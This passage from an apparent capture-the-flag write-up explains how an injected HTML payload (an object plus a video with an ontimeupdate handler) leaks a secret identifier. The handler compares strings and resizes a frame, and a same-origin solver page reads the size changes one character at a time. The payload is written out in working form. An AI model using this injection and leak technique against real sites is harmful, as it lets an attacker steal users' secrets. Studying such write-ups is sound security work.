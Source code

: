 Putting all this together again:
1. The `init.html` initializes some utility methods and opens a popup to `opener.html`.
2. `opener.html` opens the `challenge` page with the payload:
```html
   <object id=poc data=http://localhost:3000/solver.html width=101 height=101></object>
   <video muted loop autoplay src=https://www.w3schools.com/jsref/mov_bbb.mp4 
                ontimeupdate=window.opener.name<identifier?poc.height++:poc.width++>
```

This will load the `solver.html` and additionally executes the following loop:
```
if(window.opener.name < identifier)
{
    poc.height++;
}else{
    poc.width++;
}
```
In JavaScript you can compare strings by using `<` and `>` based on their ascii character index. So an `a` is lower than a `b`. 
Using this, we can control the size of the `object`. The script in `solver.html` of the `object` can then monitor `window.innerWidth` and `window.innerHeight` for any changes. If the `innerWidth` changed, the `window.opener.name` is greater than the `identifier`. If this occurs, the character we tested before, is the correct character in identifier at that position. 
Having an array of characters `["0","1","2","3","4","5","6","7","8","9","a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","{"]`:

If `"0" < identifier` returns `false`, but `"1" < identifier` returns `true`, the first character of `identifier` is `"0"`. With focus to the loop mentioned above, the width will change, when the `window.opener.name` contains a character after the actual character.
   

### Putting everything together

I will not go into a deep detail description of `init.html`, `sovler.html` or `opener.html`. This exploit unfortunately requires the script to be visible longer than the 10 seconds.

`init.html` opens the `opener.html`, which opens the challenge page with the above mentioned payload. This payload will compare the name of `opener.html` with the identifier and will change the size accordingly. Additionally the payload will load an `<object>` pointing to `solver.html`, which monitors the size by using `window.innerWidth` and `window.innerHeight`. 

The `solver.html` has the same origin than `init.html`, thus it can call functions with `window.parent.opener.opener.FUNCTION`. 

`init.html` contains the following functions:
1. `getIdentifier()` returns the currently tested character.
2. `setIdentifier()` sets the `identifier` using a reference to the `opener.html`. To do so, the origin of `opener.html` needs to be the same as `init.html`. So basically it does the following:
   1. Change location to same origin as `init.html`.
   2. Use `waitUntilWriteable` until it can write the new `window.name`.
   3. Write the new `identifier` with the already guessed part to `window.name`.
   4. Change the location back to the challenge's origin.
3. `waitUntilWriteable(windowRef)` and `waitForLocationChange(windowRef, location)` are convenience methods which simply return a resolved `Promise` as soon as the the `windowRef.name` is writeable or the `windowRef.location.href` contains the given location.
